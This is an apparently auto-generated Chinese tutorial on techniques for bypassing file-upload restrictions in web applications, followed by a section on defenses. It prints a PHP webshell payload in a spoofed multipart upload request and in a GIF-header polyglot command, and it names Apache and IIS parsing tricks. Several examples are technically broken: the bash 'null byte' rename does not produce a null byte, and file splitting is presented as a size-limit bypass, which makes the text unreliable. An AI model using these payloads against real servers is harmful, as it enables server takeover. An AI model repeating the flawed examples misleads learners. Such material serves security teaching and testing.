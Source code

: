 # 文件上传漏洞绕过技巧

## 1. 概述

文件上传漏洞（File Upload Vulnerability）是Web应用程序中常见的安全漏洞之一。攻击者通过上传恶意文件到服务器，可能导致服务器被控制、数据泄露、服务中断等严重后果。尽管许多开发者已经意识到文件上传功能的风险，但由于验证机制的不完善或配置错误，攻击者仍能通过多种方式绕过防护措施。

本文将系统性地阐述文件上传漏洞的定义、原理、分类以及常见的绕过技巧，并提供相应的防御建议。

## 2. 文件上传漏洞的定义与原理

### 2.1 定义
文件上传漏洞是指Web应用程序在处理用户上传文件时，未对文件类型、内容、大小等进行充分验证，导致攻击者能够上传恶意文件（如Web Shell、病毒、木马等）并执行任意代码或进行其他恶意操作。

### 2.2 原理
文件上传漏洞的核心在于**缺乏有效的验证机制**。常见的验证机制包括：
- **文件类型验证**：通过MIME类型或文件扩展名判断文件类型。
- **文件内容验证**：通过文件头或内容特征判断文件是否合法。
- **文件大小限制**：限制上传文件的大小。
- **文件存储路径控制**：确保上传文件存储在安全目录中。

如果这些验证机制存在缺陷，攻击者可以通过修改文件扩展名、伪造MIME类型、利用解析漏洞等方式绕过防护，上传并执行恶意文件。

## 3. 文件上传漏洞的分类

### 3.1 基于验证机制的分类
1. **无验证型**：未对上传文件进行任何验证，攻击者可直接上传任意文件。
2. **前端验证型**：仅在前端（如JavaScript）进行验证，后端未进行验证。
3. **后端验证型**：在后端进行验证，但验证逻辑存在缺陷。
4. **双重验证型**：前端和后端均进行验证，但验证逻辑不一致或存在漏洞。

### 3.2 基于攻击目标的分类
1. **Web Shell上传**：上传Web Shell文件（如PHP、JSP、ASP等），获取服务器控制权。
2. **恶意文件上传**：上传病毒、木马等恶意文件，感染服务器或客户端。
3. **文件覆盖攻击**：上传同名文件覆盖服务器上的重要文件，导致服务中断或数据泄露。

## 4. 文件上传漏洞的绕过技巧

### 4.1 绕过前端验证
前端验证通常通过JavaScript实现，攻击者可以通过以下方式绕过：
1. **禁用JavaScript**：在浏览器中禁用JavaScript，直接提交文件。
2. **修改请求**：使用Burp Suite等工具拦截并修改HTTP请求，绕过前端验证。

**示例：**
```javascript
// 前端验证代码
function checkFile() {
    var file = document.getElementById("file").value;
    if (!file.endsWith(".jpg")) {
        alert("仅允许上传JPG文件");
        return false;
    }
    return true;
}
```
攻击者可以通过禁用JavaScript或修改请求绕过该验证。

### 4.2 伪造MIME类型
后端验证可能通过MIME类型判断文件类型，攻击者可以通过伪造MIME类型绕过验证。

**示例：**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php echo system($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
攻击者将PHP文件的MIME类型伪造为`image/jpeg`，绕过后端验证。

### 4.3 修改文件扩展名
后端验证可能通过文件扩展名判断文件类型，攻击者可以通过修改文件扩展名绕过验证。

**示例：**
```bash
mv shell.php shell.jpg
```
攻击者将PHP文件扩展名修改为`.jpg`，绕过后端验证。

### 4.4 利用文件解析漏洞
某些服务器或中间件存在文件解析漏洞，攻击者可以通过上传特定文件绕过验证。

**示例：**
1. **Apache解析漏洞**：上传`shell.php.jpg`，Apache可能将其解析为PHP文件。
2. **IIS解析漏洞**：上传`shell.asp;.jpg`，IIS可能将其解析为ASP文件。

### 4.5 利用空字节截断
某些后端语言（如PHP）在处理文件名时可能受到空字节（`\0`）影响，攻击者可以利用空字节截断绕过验证。

**示例：**
```bash
mv shell.php shell.php\0.jpg
```
攻击者在文件名中插入空字节，绕过后端验证。

### 4.6 利用文件内容伪造
某些后端验证通过文件头或内容特征判断文件类型，攻击者可以通过伪造文件内容绕过验证。

**示例：**
```bash
echo "GIF89a<?php echo system($_GET['cmd']); ?>" > shell.gif
```
攻击者在文件头部添加GIF文件头，绕过后端验证。

### 4.7 利用文件大小限制
某些后端验证限制文件大小，攻击者可以通过分块上传或压缩文件绕过验证。

**示例：**
```bash
split -b 1M shell.php shell_part_
```
攻击者将大文件分割为多个小文件，绕过文件大小限制。

## 5. 防御思路与建议

### 5.1 多层次的验证机制
1. **前端验证**：使用JavaScript进行初步验证，但不可依赖前端验证。
2. **后端验证**：在后端进行严格的文件类型、内容、大小验证。
3. **双重验证**：确保前端和后端验证逻辑一致。

### 5.2 文件类型验证
1. **白名单机制**：仅允许上传特定类型的文件（如`.jpg`, `.png`）。
2. **文件头验证**：通过文件头判断文件类型，而非依赖扩展名或MIME类型。

### 5.3 文件存储与访问控制
1. **安全存储路径**：将上传文件存储在非Web可访问目录中。
2. **重命名文件**：为上传文件生成随机文件名，避免文件覆盖攻击。
3. **访问控制**：限制上传文件的访问权限，防止直接执行。

### 5.4 文件内容扫描
1. **病毒扫描**：对上传文件进行病毒扫描，防止恶意文件上传。
2. **内容过滤**：检查上传文件内容，防止包含恶意代码。

### 5.5 日志与监控
1. **日志记录**：记录文件上传操作，便于审计和追踪。
2. **实时监控**：监控文件上传行为，及时发现异常操作。

## 6. 总结

文件上传漏洞是Web应用程序中常见且危险的安全漏洞，攻击者可以通过多种方式绕过验证机制，上传并执行恶意文件。为了有效防御文件上传漏洞，开发者需要采用多层次的验证机制，严格限制文件类型、内容、大小，并确保文件存储与访问的安全性。通过综合运用上述防御措施，可以显著降低文件上传漏洞的风险，保护Web应用程序的安全。

---

*文档生成时间: 2025-03-11 12:26:24*
